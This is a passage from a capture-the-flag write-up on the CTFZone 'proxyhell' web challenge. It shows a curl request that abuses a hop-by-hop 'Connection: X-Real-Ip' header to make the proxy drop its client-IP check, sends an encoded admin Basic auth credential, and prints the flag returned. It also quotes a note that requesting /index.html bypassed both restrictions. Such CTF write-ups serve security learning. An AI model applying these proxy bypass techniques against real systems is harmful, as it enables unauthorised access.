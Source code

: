 Right after I solved the challenge, new info was added:

![img](/images/M5DN_Yior5HvAnRG9vSZH84An8Jb3Pbb)
> We have fixed the unintended solution in the task and changed the flag.

Okay, it was way too easy for a hard challenge. That time I thought that it was unintended that it was possible to supply your ldap server and that there was something more interesting hidden in it, but after I resend the previous request:

```html
% curl proxyhell.ctfz.one -H "Connection: X-Real-Ip" -H "Authorization: basic YWRtaW46QGRtaW5wYXNzd29yZGlzdmVyeXNlY3VyZSEy"
<html>
<body>
<h1>CTFZone{W3_l0v3_@_l0t_pr0xy_@nd_bug9_1n_th3m_h0p3_u_3nj0y}</h1>
</body>
</html>
```

**`¯\_(ツ)_/¯`**

About the unintended solution:
> Unintended solution was that you can just request `/index.html` and it will bypass both restrictions.